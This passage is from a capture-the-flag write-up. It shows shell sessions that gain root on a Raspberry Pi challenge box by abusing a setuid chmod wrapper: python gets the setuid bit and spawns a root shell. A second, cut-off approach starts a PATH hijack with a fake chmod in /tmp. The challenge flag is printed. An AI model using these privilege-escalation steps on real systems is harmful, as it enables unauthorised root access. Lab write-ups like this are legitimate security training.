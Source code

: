 Instead, we can do a trickier thing, and spawn a shell with python:

```bash
[master-baker@SESH-PI ~]$ cp /usr/bin/python .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: u+s .egg
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?: +x .egg
[master-baker@SESH-PI ~]$ ./.egg
Python 3.9.5 (default, May 12 2021, 20:31:15)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> import pty
>>> pty.spawn("/bin/bash")
[root@SESH-PI ~]# cat /root/root.txt
sesh{congr4tuLations_you_W1n_A_RasPB3RRY_P1!}
```

This replaces `.egg` with the python process, lets it run as root, and then uses python to spawn a shell - neat.

### Alternative Solution

Here's what SherlockSec did to root the Pi:

```bash
[master-baker@SESH-PI ~]$ ls -la
total 60
drwx------ 1 master-baker master-baker 4096 May 15 11:53 .
drwxr-xr-x 1 root         root         4096 May 15 11:53 ..
lrwxrwxrwx 1 master-baker master-baker    9 May 15 11:08 .bash_history -> /dev/null
-rw-r--r-- 1 master-baker master-baker   21 May 12 23:41 .bash_logout
-rw-r--r-- 1 master-baker master-baker   57 May 12 23:41 .bash_profile
-rw-r--r-- 1 master-baker master-baker  141 May 12 23:41 .bashrc
-r-xr-xr-x 1 root         root          176 May 15 09:15 .egg
-rwsr-xr-x 1 root         root         9584 May 15 09:18 .egg-cracker
-rw-r--r-- 1 master-baker master-baker  141 May 15 11:53 get-file.php
-rw-r--r-- 1 master-baker master-baker   69 May 15 11:53 index.php
-rw-r--r-- 1 root         root           32 May 15 11:53 master.txt
drwxr-xr-x 1 master-baker master-baker 4096 May 15 11:08 .ssh
[master-baker@SESH-PI ~]$ file .egg
.egg: ASCII text
[master-baker@SESH-PI ~]$ cat .egg
Do not try and crack the egg, that's impossible. Instead, only try to realize
the truth...there is no egg. Then you will see it is not the egg that
cracks, it is the whole pi.
[master-baker@SESH-PI ~]$ file .egg-cracker
.egg-cracker: setuid ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, not stripped
[master-baker@SESH-PI ~]$ strings .egg-cracker
-bash: strings: command not found
[master-baker@SESH-PI ~]$ ./.egg-cracker
Howdy fella, I can help you crack eggs!
How shall I scramble things?:
chmod: missing operand
Try 'chmod --help' for more information.
sh: line 2: .egg: command not found
[master-baker@SESH-PI ~]$ $PATH
-bash: /usr/local/sbin:/usr/local/bin:/usr/bin: No such file or directory
[master-baker@SESH-PI ~]$ cd /tmp
[master-baker@SESH-PI tmp]$ echo "/bin/bash" > chmod
[master-baker@SESH-PI tmp]$ chmod 777 chmod
```